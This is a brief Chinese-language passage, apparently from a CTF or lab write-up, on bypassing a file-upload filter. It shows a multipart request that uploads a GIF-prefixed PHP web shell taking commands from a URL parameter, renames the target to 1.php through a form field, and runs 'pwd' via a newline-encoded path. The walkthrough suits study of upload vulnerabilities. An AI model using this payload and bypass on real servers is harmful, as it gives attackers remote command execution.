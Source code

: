 
这里是为了演示用到了提交按钮的`name="upload1"`
```
------WebKitFormBoundaryfRL00yf6M7cY9hnN
Content-Disposition: form-data; name="upload"; filename="shell1.jpg"
Content-Type: image/jpeg

GIF89a<?php system($_GET['cmd']);?>

------WebKitFormBoundaryfRL00yf6M7cY9hnN
Content-Disposition: form-data; name="upload1"

1.php

------WebKitFormBoundaryfRL00yf6M7cY9hnN--
```

把Submit改成了1.php

![](assets/markdown-img-paste-20180415234620869.png)

访问`/uploaded/1.php%0A?cmd=pwd`

![](assets/markdown-img-paste-20180415234722193.png)
